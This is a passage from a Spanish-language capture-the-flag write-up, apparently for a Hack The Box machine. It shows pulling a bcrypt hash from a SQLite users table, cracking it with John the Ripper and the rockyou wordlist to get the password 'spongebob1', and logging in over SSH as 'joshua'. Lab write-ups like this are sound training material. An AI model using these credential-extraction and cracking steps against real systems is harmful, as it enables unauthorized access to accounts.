 Para poder revisarlo yo me descargue a mi maquina atacante haciendo uso de python: `python3 -m http.server 8888`, con ello podrás iniciar un servidor web y descargártelo sin problemas.

Luego de descargártelo podremos acceder a la base de datos con `sqlite3` y ver las tablas que se tiene.

![20240721003002.png](20240721003002.png)

La tabla que me llamo la atención fue `users` y efectivamente tenia credenciales del usuario `joshua`. La credencial que encontramos esta encriptada y para obtener en texto plano haremos uso de `john the ripper`.

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_joshua
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (joshua)     
1g 0:00:01:30 DONE (2024-07-21 00:28) 0.01099g/s 15.04p/s 15.04c/s 15.04C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Luego de crackear la password obtendremos las siguientes credenciales: 

```c
joshua: spongebob1
```

Y haciendo uso de estas credenciales podremos inicar sesión como el usuario `joshua`

```c
❯ ssh joshua@10.10.11.239

```
